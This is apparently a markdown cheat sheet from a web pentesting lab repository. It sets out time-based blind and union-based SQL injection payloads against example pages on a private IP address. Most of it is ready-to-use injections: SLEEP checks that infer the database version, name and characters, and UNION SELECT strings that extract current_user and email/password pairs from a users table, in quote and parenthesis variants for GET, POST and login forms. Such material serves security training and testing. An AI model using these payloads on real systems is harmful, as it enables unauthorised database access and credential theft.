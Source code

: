

## Time-based Blind SQL Injection

Time-based Blind SQL Injection is a technique where the attacker determines if a SQL query is true or false based on the time it takes for the server to respond. This method is useful when the application does not return errors or results but can be made to delay its response based on the outcome of the SQL query.

### Testing URL Parameters

#### Example URL
`http://192.168.1.2/blind-injection-time-based.php`


#### SQL Injection Payloads

1. **Delay Execution**

   ```sql
   1' AND (SELECT SLEEP(10)) --+
   ```

   This query introduces a 10-second delay if executed, which helps to verify the presence of a SQL Injection vulnerability.

2. **Version-Based Delay**

   ```sql
   1' AND (SELECT IF((SELECT VERSION()) LIKE "8%", SLEEP(10), NULL)) --+
   ```

   This checks if the database version starts with "8". If true, it delays the response.

3. **Database Length Check**

   ```sql
   1' AND (SELECT IF((SELECT LENGTH(DATABASE()) = 9), SLEEP(10), NULL)) --+
   ```

   This payload delays the response if the length of the database name is exactly 9 characters.

4. **Database Length Comparison**

   ```sql
   1' AND (SELECT IF((SELECT LENGTH(DATABASE()) > 8), SLEEP(10), NULL)) --+
  
   1' AND (SELECT IF((SELECT LENGTH(DATABASE()) < 10), SLEEP(10), NULL)) --+
   ```

   These queries check if the length of the database name is greater than 8 or less than 10, respectively.

5. **Database Character Check**

   ```sql
   1' AND (SELECT IF((SELECT ASCII(SUBSTR(DATABASE(),1,1)) = 97), SLEEP(10), NULL)) --+
   ```

   This verifies if the ASCII value of the first character of the database name is 97 ('a').

6. **Database Name Check**

   ```sql
   1' AND (SELECT IF((SELECT DATABASE()) = "employe_db", SLEEP(10), NULL)) --+
   ```

   This checks if the database name matches "employe_db".

### Testing POST Parameters

#### Example URL
`http://192.168.1.2/webpentest/sqli/blind-injection-time-based-post.php`

#### SQL Injection Payloads

- **Delay Execution**

  ```sql
  1' AND (SELECT SLEEP(10)) --
  ```

- **Version-Based Delay**

  ```sql
  1' AND (SELECT IF((SELECT VERSION()) LIKE "8%", SLEEP(10), NULL)) --
  ```

- **Database Length Check**

  ```sql
  1' AND (SELECT IF((SELECT LENGTH(DATABASE()) = 9), SLEEP(10), NULL)) --
  ```

- **Database Length Comparison**

  ```sql
  1' AND (SELECT IF((SELECT LENGTH(DATABASE()) > 8), SLEEP(10), NULL)) --
 
  1' AND (SELECT IF((SELECT LENGTH(DATABASE()) < 10), SLEEP(10), NULL)) --
  ```

- **Database Character Check**

  ```sql
  1' AND (SELECT IF((SELECT ASCII(SUBSTR(DATABASE(),1,1)) = 97), SLEEP(10), NULL)) --
  ```

- **Database Name Check**

  ```sql
  1' AND (SELECT IF((SELECT DATABASE()) = "employe_db", SLEEP(10), NULL)) --
  ```

### Testing Login Queries

You can test various SQL injection techniques on login forms by injecting payloads that use different quoting mechanisms.

#### Single Quote (`'`)

- **Basic Payload**

  ```sql
  1' --
  ```

- **Order By**

  ```sql
  1' ORDER BY 2 --
  ```

- **Union Select**

  ```sql
  1' UNION ALL SELECT current_user(), 2 --
  
  1' UNION ALL SELECT 1, database() --
  
  1' UNION ALL SELECT current_user(), database() --
  
  1' UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  ```

#### Double Quote (`"`)

- **Basic Payload**

  ```sql
  1" --
  ```

- **Order By**

  ```sql
  1" ORDER BY 2 --
  ```

- **Union Select**

  ```sql
  1" UNION ALL SELECT current_user(), 2 --
  
  1" UNION ALL SELECT 1, database() --
  
  1" UNION ALL SELECT current_user(), database() --
  
  1" UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  ```

#### Parentheses (`'` and `"`)

- **Basic Payload**

  ```sql
  1') --
  
  1") --
  ```

- **Order By**

  ```sql
  1') ORDER BY 2 --
  
  1") ORDER BY 2 --
  ```

- **Union Select**

  ```sql
  1') UNION ALL SELECT current_user(), 2 --
  
  1") UNION ALL SELECT current_user(), 2 --
  
  1') UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  
  1") UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  ```

